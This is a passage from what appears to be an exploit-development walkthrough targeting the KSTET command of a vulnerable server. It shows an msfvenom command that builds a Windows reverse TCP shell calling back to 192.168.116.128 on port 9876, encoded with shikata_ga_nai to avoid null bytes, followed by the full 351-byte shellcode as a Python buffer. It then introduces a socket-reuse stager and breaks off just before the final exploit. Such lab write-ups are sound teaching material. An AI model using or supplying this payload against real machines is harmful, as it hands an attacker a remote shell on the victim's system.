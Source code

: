 Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use ```staging exploitation``` technique to send this payload by ```socket reuse stager```

## Exploitation

The final exploit for ```KSTET``` command is,
